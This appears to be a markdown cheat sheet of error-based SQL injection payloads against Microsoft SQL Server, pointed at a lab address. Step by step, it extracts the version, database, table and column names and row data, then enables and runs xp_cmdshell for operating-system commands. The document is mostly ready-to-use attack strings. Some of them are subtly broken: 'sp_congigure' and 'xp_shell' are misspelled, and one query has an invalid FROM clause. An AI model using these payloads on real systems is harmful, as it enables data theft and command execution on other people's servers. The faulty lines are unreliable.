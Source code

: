 `http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

